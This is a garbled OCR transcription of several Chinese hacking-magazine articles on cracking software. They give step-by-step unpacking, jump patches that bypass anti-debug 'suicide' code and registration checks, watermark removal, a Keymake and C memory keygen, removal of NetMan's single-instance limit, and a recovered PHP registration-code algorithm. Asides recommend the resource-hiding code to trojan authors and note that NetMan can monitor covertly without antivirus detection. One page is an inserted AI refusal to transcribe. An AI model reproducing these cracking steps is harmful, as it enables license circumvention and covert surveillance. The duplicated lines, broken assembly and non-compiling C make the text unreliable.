接下来两个jmp都是在跳回循环（两个循环）继续纠结的，时间关系我们就不接着观赏了，F4到第二个jmp的下一个指令，然后对.rsrc段下写入断点，F9，停在这里

```asm
003D3DF4    891481          mov
dword ptr [ecx+eax*4], edx  ; ker-
nel32.GetFileAttributesW
003D3DF7    E9 33FFFFFF     jmp
003D3D2F
```

```asm
003D3DFC    E9 75FEFFFF     jmp
003D3C76
003D3E01    5F              pop
edi
003D3E02    5E              pop
esi
003D3E03    5B              pop
ebx
003D3E04    8BE5            mov
esp, ebp
003D3E06    5D              pop
ebp
003D3E07    C2 0400         retn
4
```

这里负责折腾IAT，即输入表，一般加密壳都会对输入表进行处理，在运行的时候再负责填充还原（有时候会偷点API，防脱）。下面也有两个jmp，第一个jmp是取下一个API地址，第二个jmp是开始下一个dll的循环，同样由于时间关系，我们不看了，直接对003D3E07按F4从retn处返回——别忘了先删除内存断点。

到这里，壳要对原PE文件做的两项必要工作，解密区段和填充IAT表已经完成，接下来的任务就是跳入OEP，即PE文件的原入口点。找到OEP以后我就可以Dump镜像了，即可执行的PE文件。

乱入一句，并不是所有甲壳2加的程序都可以通过对rsrc下断点到这的，所以我自作主张地提供了特征码89 14 81 E9，在完成第一个内存断点后，Alt+M呼出内存窗口，然后Ctrl+B直接搜特征码就可以到这了。

接上文，返回到这：

```asm
003D464C    8B45 EC         mov
eax, dword ptr [ebp-14]
003D464F    50              push
eax
003D4650    E8 EBFCFFFF     call
003D4340
003D4655    83C4 04         add
esp, 4
```

不用跟，直接ctrl+F9执行到返回，到这：

```asm
003D46C2    8945 FC         mov
```

```asm
dword ptr [ebp-4], eax
C0C-VC.004320D8

003D46C5: ... 6A 00
0

003D46C7 FF15 18503D00 ; Call

dword ptr [3D5018]
nei32.GetModuleHandleW
```

菊花都露出来了，003D46C2处eax的值就是0。为什么公上一段是用F4而不是Ctrl+F9呢，闭着眼睛让OD直接执行到返回岂不是更方便？因为Ctrl+F9原理很简单，只是执行到任意一个retn指令就停止，上一个的循环还会跳进来系统空间调用API，API本身也有retn，用Ctrl+F9就会陷入系统空间，为了避免麻烦，F4才是最好的选择。而这一段又臭又长分支又多，加上没有别的函数调用，使用Ctrl+F9就会问泊得更多。

我们看看甲壳是怎样匠心独运到达OEP的：

```asm
003D471D A3 04643D00 mov

dword ptr [3D6404], eax
003D4722 8B65 08 mov
esp; dword ptr [ebp+8]
003D4725 61 popad
003D4726 FF25 04643D00 jmp
dword ptr [3D6404]

就是这样，eax直接赋值给一个变量，然后用这个变量间接跳转。


```

当然，保护壳一般是不会让eax的值一直保持为OEP，中间还是有些赋值变换的，不过那一串酷炫的操作太过耀眼，为了防止误伤和节省纸张，我就都统统省略了。003D4726的jmp之后就是OEP，现在可以Dump了，右键调出OllyDump就可以了，注意不要选Rebuild Import，即不要插件自动修复IAT表。Dump出来的程序应该可以直接在本机运行了，因为甲壳2主打VCPU，没有像IAT，即原PE调用API时，不需要回到壳区段中执行。

也可以运行了。But，蜂回路转，这次秒脱却是个“失败”的脱壳。可以试着用脱壳后的程序加壳，幸运的话会看到程序崩溃（提示框如图2）。这个甲壳，客气点说是不太好用；不客气的说，实在是太难用了，就算用它自己提供的原程序来加壳，竟完美填与那些古怪的输入成功加上就相当的不容易，经常不是提示输入错误就是程序要重启，还要想顺利运行的话，简直是天方夜谭）。这是因为甲壳加壳时需要调用一个dll，然后我遍甲壳的安装包，都没有发现有dll，那这个dll又是从何而来呢？
一个dll，然而我遍甲壳的安装包，都没有发现有dll，那这个dll又是从何而来呢？
让我们回到第一段代码，显然，那是一堆来自刘贤源的操作，教科书般展示了如何在资源里藏文件，有兴趣与木马而且想把生成的文件整合进同一个PE文件的同学可以好好临摹一下。我们注意到0040150B，OD标注的参数为ResourceType = "DLL"，原来dll在这里！甲壳把dll作为资源，并把获取这个资源的代码放进壳里，当壳运行的时候，就释放出这个dll并load入内存，我们脱壳之后，就无法获取这个dll，从而无法加壳。然后，既然分析到这一步，要修复也不难了，只要做一个loader把它load入内存，然后把dll的输出函数重新链接好即可。如果大家编写有困难，可以上坛坛发布脚本，我会视情况补充的。

[PAGE 112]

我不能逐字转录这一页。它是已出版刊物中的软件破解教程，包含脱壳、定位与修改保护代码的具体步骤，我不提供这类可操作的破解细节，也不作大段原文复制。我可以提供不含操作步骤的高层概述（例如主题与涉及工具的名称），如需要请告诉我。

[PAGE 113]

```asm
00546D5C    ; 反编译显示
00546B19    | 68 686D5400    push 0
00546B68    mov eax, ebx
00546B20    | E8 2FC3FFFF    call eax
00546B25    | 50             push eax
00546B26    | E8 D90CECFF    call
...
00546B2B    | 8D55 E8       lea
 eax, dword ptr [ebp-18]
00546B2E    | A1 78295600    mov
 eax, dword ptr [562978]
00546B33    | 8B00           mov
 eax, dword ptr [eax]
00546B35    | E8 4E61F3FF    call
0047CC88
00546B3A    | 8B45 E8       mov
 eax, dword ptr [ebp-18]
00546B3D    | 8D55 E8       lea
 eax, dword ptr [ebp-18]
...
00546B50    | 6A 00         push 0
00546B52    | 68 5C6D5400    push
00546B5C    | 8BC3           mov eax, ebx
00546B5E    | E8 F1C2FFFF    call
00462E54


```

的儿两处跳转，要跳过“自杀代码”我们就要修改的这两处，一是将00546B10的JE改为JMP，二是将00546B4E的JE改为JMP，这样就可以跳过自杀部分的Call。此时单击右键→复制到可执行文件→所有修改，保存文件为unpack1.exe。现在打开看看，“自杀”现象已经不存在了。

## 三、巧除木马

既然是加了水印，自然要剥水印，印掉去，软件是在印章下加了一个“版权所有：一生中最爱”，既然没有什么用（这个我们可以事先查看下，此处不多讲），那么我们就从程序文件入手。将unpack1.exe载入C32asm，选择十六进制模式，这次水印的破解就从“搜索”功能入手吧，类型选择ANSI字符串，搜索内容输入“一生中最爱”（如图5），C32找到，同时我们何也能看到“版权所有”几个字，选择他们，右键点击填充，用十六进制00填充，OK，保存文件，打开看看，水印已经没了（如图6）。
## 四、搜索注册码破解密码

至此，软件功能已基本无存，剩下的就是练字了，软件注册码模块很好找，通过Ollyice查找字符串功能很容易找到，我就不啰嗦了，通过字符串，进入下面代码区域：

```asm
00538F73    | E8 C0F3FFFF    call
00538F36    | 84C0           test
00538F78    | 75 64          jnz
00538FE0    | 6A 00          push 0
00538F7C    | 6A 00          push 0
00538F7E    | 68 40905300    push
00539040    call
00538F83    | 68 40905300    push
00539048    add esp, 0C


```

00538F88  A1 78295600   mov eax, dword ptr [562978]
00538F8D  8B00          mov eax, dword ptr [eax]
00538F8F  8B40 44       mov eax, dword ptr [eax+44]

版面所限，我只保留跳转部分，可以看到“00538F78 . 84C0 test al, al”这句判断注册码是否正确，00538F7A决定了注册跳转方向，若注册码正确，则跳向00538FE0，显然，我们没有正确的注册码，要想实现跳转就得把它改为JMP。保存运行后，注册时提示注册成功，可软件还有红色字写着“未注册”让人看得很不爽，再次载入Ollyice，字符串参考输入“未注册”，找到如下部分：

00546F01  8D45 FC       lea eax, dword ptr [ebp-4]
00546F04  BA C46F5400   mov edx, 00546FC4    ; :已注册
00546F09  E8 12DAEBFF   call 00404920
00546F0E  8B55 FC       mov edx, dword ptr [ebp-4]
00546F11  8BC3          mov eax, ebx
00546F13  E8 38561FFF   call 0045C550
00546F18  EB 29         jmp short 00546F43
00546F1A  8D55 F8       lea edx, dword ptr [ebp-8]
00546F1D  8B06          mov eax, dword ptr [esi]
00546F1F  8B98 1C030000 mov ebx, dword ptr [eax+31C]
00546F25  8BC3          mov eax, ebx

00546F27  E8 F455F1FF   call 0045C520
00546F2C  8D45 F8       lea eax, dword ptr [ebp-8]
00546F2F  BA D46F5400   mov edx, 00546FD4    ; :未注册
00546F34  E8 E7D9EBFF   call 00404920

00547052  E8 051EFFFF   call 00538E5C
00547057  84C0          test al, al
00547059  74 10         je short 0054706B
0054705B  BA D4725400   mov edx, 005472D4    ; 已注册
00547060  8B83 2C0B0000 mov eax, dword ptr [ebx+B2C]
00547066  E8 E554F1FF   call 0045C550
0054706B  8B83 68030000 mov eax, dword ptr [ebx+368]

00546EEB经过比较得到注册是否正确，在00546EED跳到未注册，00547057处也是如此，这样思路就明了了，将00546EED JE和00547059处修改为JNE即可。现在再次保存所有修改，运行程序并注册，显示的就全是“已注册”了。

## 五、总结

这次破解没什么高深的技术含量，只是给大家破解此类软件提供一种可行思路。其实这款软件还有一些地方值得挖掘，我就不提了，叉子们可以自行尝试。文章就到这里，如有错误，欢迎指正，论坛ID：冷夜。

（文章中所涉及到的MakeSign已收录在光盘中）

# 软件破解经验谈

轩辕流云

相信很多人对玩crackme已经很有心得了，但实际去破解软件时却遇到这样那样的问题。本篇文章原本本着FREE、SHARE的理念向各位介绍一些破解软件的小知识，帮各位读者将玩crackme的经验转化为破解软件的技术。并希望诸位能以FREE、SHARE的理念去破解软件，而不是以牟利为目的，因为那样对你没什么好处。

## 一、工欲善其事，必先利其器

首先让我来看看诸位手中的家伙都是什么？都是OD？OD确实是一个不错的东西，是一个“便捷的面向黑客的应用程序级（ring3）调试器”，拿来玩crackme确实是相当不错的选择。当然我并不是在委婉地告诉你OD不适合用来破解软件，事实上相当多的cracker（破解高手，而非破坏者）在用OD。我想说的是，只有OD是不够的，你还需要其他东西，下面我会详细列举。

我们从OD开始，相信大家手上的OD都是破解版的，而且版本号也参差不齐。不过这并不是重点，重点在于大家手上OD的插件功能很少有人会用到，甚至有人根本不知道OD支持插件。OD之所以会被cracker们青睐，就是因为OD支持插件机制，当然还有一个原因是SoftICE停止更新了，世界各地的黑客都可以为OD编写插件来增强其功能。你可以在http://www.openrce.org上找到大量的OD插件（如图1）。
图1

接下来，我们需要一个反汇编器，IDA Pro是唯一的选择，除此之外所有的汇编器工作时产生的错误都会让人感到崩溃。IDA是一个交互式的反汇编器，你可以用它直接处理二进制文件，凭想象随心所欲的研究，从而为创造性的活动提供了许多可能性。相比之下，大多数批处理反汇编器都是些闷头闷脑的自动化工具，他们吞下去那些被“黑”的程序，生成一堆没什么用且错误百出的反汇编清单，这相当令人痛苦。IDA也支持插件机制，同样在上面提供的网址上找得到（其实OD中内置了反汇编器，而IDA也同样内置了调试器，不过不是太好用就是了）。

由于相当多的软件是被加壳的，我们常通过这个手段来对抗杀软，而这样的软件反汇编出的信息是不可靠甚至完全错误的，我们需要先对软件进行脱壳才能进行破解。但困难的是，打包的方式实在太过多种多样，无数的黑客想要编写一个通用的解包器，却没有一个人成功，在网络上可以找到很多基于这种理念的半成品。我给大家提供的办法是，先用PEiD（http://peid.has.it）检查软件使用的何种打包器（加的什么样的壳），再去网上寻找相应的解决方法。虽然PEiD给出的结果不正确或存在歧义是经常的事，但有工具可用总比没有的好。

其次我们还需要一个监视器，来监视软件会对你的机器做些什么。这里推荐Mark Russinovich开发的文件监视器File Monitor与注册表监视器Regedit Monitor。

此外还有一些会用到的工具，比如反编译器（推荐DeDe，http://programmerstools.org/node/120 免费。此外还有针对VB的VB Decompiler和VB RezQ）、十六进制编辑器（推荐HIEW，特别是V6.04版。还有WinHex）、解包器（脱壳器）、转储器（Lord PE、PE Tools和Resource Binder）、资源编辑器（Restorator Resource Editor和免费的XN Resource Editor）、窥测器（隶属于Microsoft Visual Studio的Spyxx.exe和免费的WinSpy）、修正器（Process Patcher）等，这里就不一一介绍了。

对了，我们还需要一个仿真器（VMware，Virtual PC等），也就是我们平时说的“虚拟机”。因为在破解中经常会出现一些你不希望发生的事，所以在虚拟机中工作是最好的选择。
图2

## 二、知己知彼，百战不殆

接下来我们认识一下软件的保护机制（如图2）。具体形式这里就不一一列举了，相信大家心里都有个大致的印象，不知道的可以去请教度娘。需要说的是，有些软件会使用一些别的公司专门制作的保护软件来保护自己的软件。如果是这样的话，你完全不用费时费力的阅读那些又臭又长的反汇编代码。搞清楚这是什么牌子的的保护机制，然后百度

# 破解篇

## 三、未来破解篇，得学多地

最后让我带领大家模拟一下软件破解的过程，并分析破解期间经常出现的各种特殊状况：现在让我们进入虚拟机并用 OD 载入在破解的软件。

咦，怎么回事？OD 自动关闭了，然后自动关机，再开的时候 BIOS 提示没有操作系统……

现在应该庆幸你是在虚拟机里进行破解工作的了。出现这一情况的原因是：软件检测到自己运行在调试器里，为了不被破解而采取了反制手段——格式化硬盘。解决的办法是寻找一个能让 OD 在软件保护机制眼里隐身的插件。

好了，用快照恢复虚拟机并为 OD 安装上插件，我们继续。OD 顺利载入软件并给出了反汇编代码，而不是硬盘被再次格式化。但请不要高兴的太早，因为 OD 给出的全是乱码……这是因为软件被加壳了，用我前面提到的 PEiD 试试看（用它提供的信息在网上寻找解决办法，而不是尝试用它来解包，因为它很难解的出来），如果运气不错，相信你现在已经得到正确的反汇编代码了。如果你运气不好，那我也没有什么别的好办法了，去打那些半成品的通用解包器试试吧！还有一种办法，大家可以试试找一些 OD 的脱壳插件，这些东西也可以试试。如果实在没办法脱壳，大家可以试试转储器，它几乎可以破除所有打包保护。

包裹和绝大多数保护器。不过需要指出的是，你仍然必须对所得到的转储内容投入相当多的精力去探查。如果这也不行，那就只能手工脱壳了（ㄒ□ㄒ）。

接下来就看各位的技术功底了，和华常玩 crack 一样，多。大家只需记住一点，防御体系的各个环节并不是一样强有力的，整体保护强度的高低要由最脆弱的部分决定。举个例子，要进入二间装有钢板防盗门的卡纸板小屋，踢墙显然比撬门来的方便快捷。

下面我要讲一些破解共享软件的技巧。共享软件一般是让用户免费试用一段时间或一部分功能，然后让用户自愿掏腰包购买。要解决那些限制使用时间的软件相当容易。这些软件会在首次运行时在系统中做个标记用来判断是否首次运行，并记录下当前系统时间或设置一个计时器，当超过试用期后就拒绝运行。你可以修改系统时间，使用步速器（一种软件），或在软件第一次运行时启动监视器，将程序运行到被破解为止，之后清除掉就好了（据我所知有一个叫“云端”的软件可以帮助我们完成这一切，而不用我们亲自动手）。至于那些限制功能就有些麻烦，有的仅仅是禁止使用，那样只要你技术够强就没问题；而另外一种则是把相关的功能代码从软件中物理删除了，这种情况只能通过其它办法擦到一个完整的带壳了。

## 系统破解篇

上次《曲折实践——再谈水印》提到的破解图章制，操作系统 MakeSign 利用的是修改十六进制文件加上爆破的方法。但大家都知道，破解的境界里，爆破只是最简单的一级，那么这次，我们就进步一下，编写一个内存注册机。

其实在 Ollyice 中分析软件注册流程时我们就可以发现，这个软件有个软肋就是明码比较，注册码存存在寄存器中，很容易追出注册码，但我们不能满足于简单的追码，还要知道如何编写这类软件的注册机，下面就操刀动手吧。

软件的脱壳以及去除自杀代码上次已经提过了，这次就不再赘述，另外上次写到用 ESP 定律脱壳，这里再补充一种 ASPack 壳的脱壳方法：同样的载入未脱壳的软件，弹出对话框选择“否”，右键查找命令序列，输入下面的命令。

```
push 0
retn

在跳转处按 F4，然后 F8 单步两三次就到 OEP 了。


```

00538D6F  |. 8B45F4       MOV EAX,[EBP-0C]
0045?    |. 8B4D?        MOV ECX,[EBP-?]
00538D72  |. E8?          CALL 00538D94
00538D?  |. E8?          CALL 00538D94

00538D77  |. B9 3C8E5300     mov     ecx, ptr [ebp-10]
00538D7C  |. B2 01           mov     dl, 1
00538D7E  |. A1 00C94300     mov     eax, dword ptr [ebp-4]
00538D83  |. E8 283CF0FF     call    0043C9B0
00538D88  |. 8BD8           mov     ebx, eax
00538D8A  |. 6A 00           push    0
00538D8C  |. 8D45 EC         lea     eax, dword ptr [ebp-14]
00538D8F  |. 50              push    eax
00538D90  |. B9 508E5300     mov     ecx, ptr [ebp-10]
00538D95  |. 8B55 FC         mov     edx, dword ptr [ebp-4]
00538D98  |. 8BC3           mov     eax, ebx
00538D9A  |. 8B30           mov     esi, dword ptr [eax]
00538D9C  |. FF16           call    near dword ptr [esi]
00538D9E  |. 8B45 FC         mov     eax, dword ptr [ebp-14]
00538DA1  |. 8D55 F0         lea     edx, dword ptr [ebp-10]
00538DA4  |. E8 FF01EDFF     call    00408F90
00538DA9  |. 8BC3           mov     eax, ebx
00538DAB  |. E8 88AAF CFF    call    00403B38
00538DB0  |. E8 8BA1ECFF     call    00402F40
00538DB5  |. B8 20000000     mov     eax, 20
00538DBA  |. E8 8DA4ECFF     call    0040324C
00538DBF  |. 8BD8           mov     ebx, eax
00538DC1  |. 85DB           test    ebx, ebx
00538DC3  |. 7F 05           jg      short 00538DCA
00538DC5  |. BB 01000000     mov     ebx, 1
00538DCA  |. 83FB 1E        cmp     ebx, 1E
00538DCD  |. 7E 05           jle     short 00538DD4
00538DCF  |. BB 1E000000     mov     ebx, 1E
00538DD4  |. 8D45 F8         lea     eax, dword ptr [ebp-8]
00538DD7  |. 50              push    eax
00538DD8  |. B9 02000000     mov     ecx, 2
00538DDD  |. 8BD3           mov     edx, ebx
00538DDF  |. 8B45 F8         mov     eax, dword ptr [ebp-8]

00538DE2  |. E8 91BDECFF     call    00404B78
00538DE7  |. 8D45 F0         lea     eax, dword ptr [ebp-8]

这部分就是注册部分的主线了。在单步跟踪的时候，经过

此时，软件就临时将寄存器中，此时寄存器是这样的。

00538DE2  |. E8 91BDECFF     call    00404B78

EAX 00C3C268  ASCII "0d7126356f314e8342929c12..."
ECX 00000002
EDX 00000016
EBX 0012FBE0
ESP 0012FBC0
EBP 0012FBEC
ESI 0043C94C MakeSign.0043C94C
EDI 0012FE94
EIP 00538DE2 MakeSign.00538DE2

这样编写内置注册码就不难了，这里用Keymake这款软件做示范编写。具体步骤如下：

- 1. 打开注册码编写器Keymake，选择菜单项的其它一项，已存注册码，在程序信息部分载入要破解的程序，并单击左下角的标签。
- 2. 再添加数据对话框中输入以下数据：

| 中断地址 | 中断次数 | 第一个字节 | 指令长度 |
|---|---:|---|---:|
| 00538DE2 | 1 | E8 | 5 |

输入完后单击添加。这里给小菜补充一下，第一个字节即是E8，指令长度也很好判断，通常点说两个字就是一个指令，故指令长度为5。

- 3. 添加后在程序右侧在注册码区域选择所需格式，写上所需存储数据寄存器为EAX即可。

# 神秘魔鬼
现在已经基本完成了好了（如图1），另外用户信息处自己设置就好，此时单击右下角的生成，选择自己喜欢的注册机外观，生成后注册机就OK了（如图2）。
现在总结一下，理论上有在注册是在寄存器中进行源码比较的程序都是可以通过此种方法编写注册机的。但利用别人的软件制作注册机还不完美，我们也可以自己编程解决这个问题。

我用的是C语言，因为我C基础不好，代码都是东拼西凑的，所以只能写到这个地步了，代码如下：

```c
#include <windows.h>

void main()
{
    PROCESS_INFORMATION pi;
    STARTUPINFO si;
    DEBUG_EVENT devent;
    CONTEXT Regs;
    Regs.ContextFlags = CONTEXT_FULL;
    DEBUG_REGISTERS | CONTEXT_CONTROL;
    ZeroMemory(&pi, sizeof(pi));
    ZeroMemory(&si, sizeof(si));
    LPVOID breakaddr = (LPVOID)0x0058DE52;
    BYTE *pSub = 0xE0;
    ReadProcessMemory(pi.hProcess, breakaddr, buff, 1, &read);
    while(TRUE)
    {
        switch(devent.u.DebugEventCode)
        {
            case EXCEPTION_DEBUG_EVENT:
                if(devent.u.Exception.ExceptionRecord.ExceptionCode == EXCEPTION_BREAKPOINT)
                {
                    // 断点处理
                }
                break;
            case CREATE_PROCESS_DEBUG_EVENT:
                // 创建进程处理
                break;
            case EXIT_PROCESS_DEBUG_EVENT:
                // 退出进程处理
                break;
            case LOAD_DLL_DEBUG_EVENT:
                // 加载DLL处理
                break;
            case UNLOAD_DLL_DEBUG_EVENT:
                // 卸载DLL处理
                break;
            case OUTPUT_DEBUG_STRING_EVENT:
                // 输出调试字符串处理
                break;
            case RIP_EVENT:
                // RIP事件处理
                break;
        }
        ContinueDebugEvent(devent.dwProcessId, devent.dwThreadId, DBG_CONTINUE);
    }
}
```


```c
if (ourp[0] == ...)
{
    ...
    VirtualProtectEx(lpProcess, ...);
    ...
    DWORD oldpro;
    Protect(...);
    VirtualProtectEx(hProcess, lpProcess, breakAddr, ...);
    READWRITE(&oldProtect);
    WriteProcessMemory(pInProcess, breakAddr, ...);
    VirtualProtectEx(lpProcess, breakAddr, ...);
    ...
    ReadProcessMemory(pInProcess, breakAddr, ...);
    DWORD oldpro;
    ...
    VirtualProtectEx(lpProcess, breakAddr, ...);
    ...
}
```

```c
VirtualProtectEx(hProcess, lpProcess, lpBreakAddr, ...);
...
SetThreadContext(pth, &regs);
...
ReadProcessMemory(lpProcess, breakAddr, ...);
...
way = DBG_CONTINUE;
CONTINUE;
...
ContinueDebugEvent(...);
...
else
{
    MessageBox(NULL, ...);
}


```

这个程序只是将注册码以对话框的形式显示出来（如图3），稍懂C的朋友可以修改完善一下。另外，此处代码可以通用的，不同软件只需修改不同信息即可。
对于这款软件，有兴趣的朋友可以研究一下它的注册码获取方式，我已将大体在注册码流程整理出来，但因复杂度高，考虑时间，开末分析出算法，限于版面，我视得注册码流程以及C代码放到光盘里，有兴趣大家可以研究一下。最后感谢BHST坛子ROOT大哥的指教，如有问题欢迎指正，论坛ID：冷夜。

## 对网络人的一次逆向分析

沧海浮萍

网络人是一款非常不错的远控软件，实现了内网穿透，操作非常简单，由于该开发团队当初的定位并不是将其作为木马远控之类的远控工具而进行开发和推广，因此从广大技术爱好者的角度来说，NetMan的知名度并没有灰鸽子、gh0st、Nat等远控木马大。也正是由于它是一款正规的远控软件，因而它在企业以及正规场合的使用频度也是相当广泛的。笔者最近尝试使用了几次发现，网络人远程控制软件，功能上和木马相当，也可以实现隐蔽的监控效果，但不会被杀毒软件查杀，笔者将在本文中详细的介绍网络人的用法，以及对它的逆向分析。

在使用软件之前用户需要首先注册几个账号，便于同时登陆两台以及两台以上的计算机，使用注册的账号登陆后的界面如图1所示。登陆的时候一定要记住软件提示我们输入的控制密码，使用这个密码我们可以在另一台计算机上使用网络人来控制我们的这台计算机。在远程IP/ID中输入我们的另一个用户名以及控制密码，点击“连接”我们就可进行远程控制了。
软件的具体用法相信朋友们会摸索出来的，下面笔者着重对网络人进行一次逆向分析。

按照流程开始，首先我们看一下安装目录下的模块都有哪些，如图2所示。其中Language_big5.ini、Language_English.ini、Language_gb32.ini三个文件是网络人的软件语言文件，通过这几个文件的切换，我们就可以不断地切换语言文件。EMail.ini这个文件中存放的是一些邮件信息，我们从软件中可以找到这些信息，如图3所示。Property.ini这个文件存放的信息是网络人的一些配置信息。netman.exe是主文件，NetmanService.exe是网络人的服务模块。至于其他的模块我们需要进行分析才能够得出结论。首先我们用PEID查壳可以发现网络人本身没有采用加壳保护，如图4所示，是采用VC6写的。我们直接将软件的主模块载入到OD中。
按照常规我们需要看看软件有没有字符串的相关信息。我们采用超级字符串窗口的“查找UNICODE”来查找相关的字符串。为什么用UNICODE呢？因为在载入程序到OD时我们可以看到内存窗口中有一些字符串提示，如图5所示。
```text
StartServer
Sat127.0.0.1
main
http://netman23.cn/register.asp
open
http://netman23.cn/news.asp
Email.ini
Win
Recommend you a fantastic remote tool----Netmaniplayer 3
At there, you found this powerful remote access tool—Netman
oday
Win
mailto:?subject=$body=&$body=$s
open
Winplayer.exe
Language_gb32.ini
Language_gb32.ini
main
Language
Language_Big5.ini
Language_Big5.ini
main
Language
Language_English.ini
Language_English.ini
main
Language
http://netman23.cn/bbs/reg.asp?update
open
http://netman23.cn/update.asp


```
| 地址 | 数据 | 代码/说明 |
|---|---|---|
| `003F0000` | `00001000` | `CDLL` |
| `003F1000` | `00008000` | `CDLL text` |
| `003F7000` | `00001000` | `CDLL rdata` |
| `003F8000` | `00004000` | `CDLL data` |
| `003FC000` | `00001000` | `CDLL reloc` |
| `00400000` | `00001000` | `enable`，`PE` 文件头 |
| `00401000` | `00056000` | `enable`，`text` |
| `00457000` | `00002000` | `enable`，`rdata` |
| `00459000` | `00008000` | `enable`，`data` |
| `00461000` | `00018000` | `enable`，`rsrc` |
查找完毕后我们到字符串窗口查看相关信息，虽然大部分信息不明确，但是还有一部分信息我们是可以看出来的，如图6所示。更多的有用信息我们可以通过下面的方法来获取。点击 OD 的“查看”“内存”，我选择可执行程序主模块的 `.text` 节段，如图7所示，这个节段里面包含的就是可执行程序主模块的代码。我们双击该节段之后就来到了他的内存区域，如图8所示。

```asm
00401000  6A 77                 PUSH 77
00401002  68 41214500           PUSH 00452141
00401007  64 A1 00000000         MOV EAX, DWORD PTR FS:[0]
0040100D  50                    PUSH EAX
0040100E  64 8925 00000000       MOV DWORD PTR FS:[0], ESP
00401015  51                    PUSH ECX
00401016  56                    PUSH ESI
00401017  8BF1                  MOV ESI, ECX
00401019  57                    PUSH EDI
0040101A  897424 08             MOV DWORD PTR SS:[ESP+8], ESI
0040101E  E8 5D045000           CALL <JMP.&MFC42.#57>
00401023  33FF                  XOR EDI, EDI


```
在右侧的注释栏中我们可以看到很多有用的信息，其中包括了网络连接、按钮初始化、配置文件读取、模块加载、互斥体创建、服务创建以及不断弹出的新闻和提示信息。

## 神秘互斥

到 CreateMutex 创建互斥体的工作完成，这里我们可以看到 EAX 中的值为 110，然后继续执行完 GetLastError 这个函数时 EAX 值为 0，同时将该值放入了 EDI 中。这是正常执行的过程，下面我们来看一下第二个 OD 的执行结果。第二个 OD 在执行完 CreateMutex 时 EAX 的值为 110，但正在执行完 GetLastError 之后 EAX 中的值变成了 0B7，如图12所示。
从上面的分析可以看出，对软件进行逆向分析时，我们最先就应该先去判定软件的信息，这些信息包括模块信息、错误提示信息，以及内存的状态信息、函数调用信息等。通过函数以及模块的调用，我们能够判断出程序每一模块的具体功能。NetMan 这款软件是不允许多开的，也就是说在一台计算机上只允许开启一个实例，下面我们来分析并除去这个限制。
小知识：互斥体实现了“互相排斥”（mutual exclusion）同步的简单形式（所以名为互斥体（mutex））。它可以用于软件的单实例限制。在 VC 中通过 CreateMutex 这个 API 函数来创建互斥体。函数原型如下：

下面就是处理单个实例的关键了，如图13所示的代码中，CMP EDI,0B7 这一句就是检测互斥体创建是否失败，很显然，当 EDI 的值为 0B7 时说明互斥体创建失败，也就是说在某处已经有一个实例在运行了，所以下面的跳转要执行，执行了跳转程序也就退出了。所以这里不能让它执行。
我们不要修改跳转的模式，而修改对比的值，将 CMP EDI,0B7 修改为 CMP EDI,0B0。只要不是 0B7 就可以。修改之后保存程序，我们运行一下测试，看看能否开多个实例，测试结果如图14所示，修改成功。
下面我们就来到内存地址为 00423CD4 的位置，如图9所示。我们前往这一段代码的开始位置，并在段首设置断点，如图10。
为了安全起见，这里我们设置为硬件执行断点。断点设置完毕后我们运行程序，此时程序将在这里中断下来，然后我们按 F8 但不执行，来到创建互斥体的关键代码位置，代码如图11所示。为了更好观察互斥体创建的效果，我们在打开一个 OD，并载入 NetMan，按照上面相同的方式，将程序运行至这个位置。然后单步执行我的第一个 OD，直到 CreateMutex 函数执行完成。

别是错误之类的信息，这对于我们的逆向分析是十分关键的。另外查看这个程序主模块所使用的API函数也十分重要，得到这个程序的API函数我们就可以知道这个程序各个模块的大致功能，这对于我们分析程序的整体构架是十分重要的。网络人这款软件从整体上说是很不错的软件，本文对网络人这款软件的限制解除仅仅用于技术交流，不得用于非法用途，笔者也不会将解除限制后的软件予以公布。

> （文中涉及的“netman免费办公版以及相关代码”本期光盘已收录）

## PHP源码OA系统的注册破解

以武汉天拓科技发展公司的`ttoa.exe`（Global office version3.0）为实例，演示如何破解PHP源码OA系统的注册码。

二、解密注册文件：直接用写字板打开`ttoa\webroot\inc\reg.php`（见图3），直接在桌面上（见图5）解密完后，注册文件，是注册文件（见图4）。
### 二、解密注册文件：

OA系统安装完后，以用户名：admin，密码为空登录进入OA，桌面上有：软件尚未注册，请点击这里注册（见图1），点击后出现注册页面（见图2），这个文件是哪个文件呢？鼠标右键在此文件空白处点一下，选“属性”，可看出文件路径。

注册成功后，用户字板打开桌面上的`reg.de.php`，先找到“注册”字符，在后面有：`form action=\reg_submit.php`（见图6），这是点击“注册”后，把变量传给`reg_submit.php`处理，同时用DezenderGUI解密，打开该文件。
## 神秘圈
第一节，是提示注册码为空，而第二节如果（关键语句），则注册失败否则第二节注册成功，因此这里要让关键语句不能通过，也就是 check_register_code 必须为真（前面还有一个“！”，“求反运算”）。在 reg_submit.de.php 文件里可看到本文件包含三个文件：inc/php.php、inc/utility.php、php.inc/reg_func.php。用 DezenderGUI 还原一解密，并用写字板打开，查找 check_register_code 功能。在 reg_func.de.php 里可看到：function check_register_code。

```php
function check_register_code($REGISTER_CODE_STR)
{
    $MACHINE_CODE_STR = get_machine_code();
    if ($REGISTER_CODE_STR == $MACHINE_CODE_STR)
    {
        return true;
    }
    else
    {
        return false;
    }
}
```

其中 $MACHINE_CODE_STR 是我们在注册页面上看到的机器码：0a260917，而为了使本功能返回 1，则必须使 $REGISTER_CODE_STR == $REGISTER_CODE_TDOA，此 $REGISTER_CODE_STR 是我们输入的注册码，因此，关键语句（黑体色）就是机器码（$MACHINE_CODE_STR）经过 rainbowya_get_register_code 运算后得到正确的注册码，而 rainbowya_get_register_code 功能代码就在 reg_func.de.php 的 function check_register_code 前面。

```php
function rainbowya_get_register_code($MACHINE_CODE_STR)
{
    $REGISTER_CODE_STR = md5($MACHINE_CODE_STR);
    $REGISTER_CODE_STR = md5($REGISTER_CODE_STR);
    $REGISTER_CODE_STR = md5($REGISTER_CODE_STR);
    return $REGISTER_CODE_STR;
}
```

```php
CODE_STR1 ));
$STR = substr($REGISTER_CODE_STR1, $i, 1);
$REGISTER_CODE_STR2 = ord($STR) + 2;
$REGISTER_CODE_STR2 = strrev(substr($REGISTER_CODE_STR2, 0, 5)).substr($REGISTER_CODE_STR2, -5) * 8;
$REGISTER_CODE_STR2 = substr($REGISTER_CODE_STR2, -3).substr($REGISTER_CODE_STR2, 0, 5);
$REGISTER_CODE_STR2 = str_replace("0", "2", $REGISTER_CODE_STR2);
$REGISTER_CODE_STR2 = str_replace("5", "6", $REGISTER_CODE_STR2);
$REGISTER_CODE_STR2 = str_replace("4", "9", $REGISTER_CODE_STR2);
return $REGISTER_CODE_STR2;


```

